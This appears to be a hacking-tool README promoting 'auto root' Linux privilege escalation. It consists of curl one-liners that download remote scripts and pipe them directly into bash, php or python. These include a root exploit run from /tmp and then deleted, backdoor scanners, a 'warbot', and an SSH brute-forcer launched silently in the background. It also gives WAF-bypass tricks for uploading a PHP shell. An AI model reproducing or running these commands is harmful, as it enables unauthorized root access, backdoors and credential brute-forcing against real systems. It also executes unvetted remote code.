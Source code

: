 # localroot Auto Root Linux Privilege Escalation

```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& dos2unix /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
```bash
curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh -o /tmp/modrot.sh \
&& sed -i 's/\r$//' /tmp/modrot.sh \
&& chmod +x /tmp/modrot.sh \
&& /tmp/modrot.sh \
&& rm -f /tmp/modrot.sh
```
# Auto Backup defend ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/autobackup.php | php - backup y
```
# Auto Warbot ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/warbot.php | php
```
# scanner backdoor high ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/outsca.php | php
```
# Scanner backdoor simple ☠️
```
curl -sL https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/simple.php | php
```
# Bayypas Waf
```
Transfer-Encoding: chunked
```
Content-Type: multipart/form-data; boundary=---------------------------123456789;
```
shell%2Ephp
```
```
#Brute Force Ssh
'''
'''
https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/bfssh.sh

./entod.sh -u targetuser -t 0.5 -s 0.003 -w top12000.txt

nohup curl -s https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/ko.py | python - > /dev/null 2>&1 &

```
# Web Defend
```
curl -o githubusercontent.com/peler.sh

```

☠️ Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N ☠️
